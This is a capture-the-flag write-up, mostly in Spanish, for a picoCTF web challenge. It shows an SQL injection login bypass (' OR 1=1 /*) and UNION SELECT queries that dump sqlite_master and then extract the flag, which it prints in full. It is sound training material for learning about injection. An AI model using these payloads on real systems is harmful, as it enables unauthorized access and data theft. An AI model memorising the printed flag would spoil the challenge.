 ## Descripcion
Can you find the flag on this website.Try to find the flag [here](http://saturn.picoctf.net:59840/).

## Hints

- SQLiLite

## Solucion

En este caso, lo primero que encontramos es un panel de login, y lo primero que intento es con credenciales comunes como admin:admin123.

Hay algo curioso, ya que me regresa la estructura de la consulta sqli:
`SQL query: SELECT id FROM users WHERE password = 'admin123' AND username = 'admin'` Ya que veo como funciona esta consulta me intento loggear como admin, poniendo el campo de password como True, intento lo siguiente

`admin:' OR 1=1 /*`

Con esto me logro loggear a la pagina. 

Una vez dentro de la web, solo muestra un campo de busqueda de oficinas y muestra toda la informacion de la oficina. 

¿Que podemos hacer ahi?

Si hacemos cualquier busqueda, regresa siempre tres campos, city, address y el phone. Por lo tanto la pagina siempre va a regresar un resultado en base a esas 3 columnas. Como es sqlite, intento hacer una inyeccion para ver el contenido de todas las tablas:
`' union SELECT sql,1,2 FROM sqlite_master`

el `1,2` es para poder completar las columnas a mostrar y obtener un resultado. En este caso obtenemos este resultado:

```

|City|Address|Phone|
|---|---|---|
||1|2|
|CREATE TABLE hints (id INTEGER NOT NULL PRIMARY KEY, info TEXT)|1|2|
|CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)|1|2|
|CREATE TABLE offices (id INTEGER NOT NULL PRIMARY KEY, city TEXT, address TEXT, phone TEXT)|1|2|
|CREATE TABLE users (name TEXT NOT NULL PRIMARY KEY, password TEXT, id INTEGER)|1|2|
```

Aqui hay algo raro, pues la tabla more_table tiene los campos `id y flag` , por lo que deseo ver el contenido de estos campos. Entonces armo el siguiente payload:

```
'union select id,flag,1 from more_table;

```

Y obtuve el siguiente resultado: 
|City|Address|Phone|
|---|---|---|
|1|picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}|1|
|2|If you are here, you must have seen it|1|


## Referencias
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md

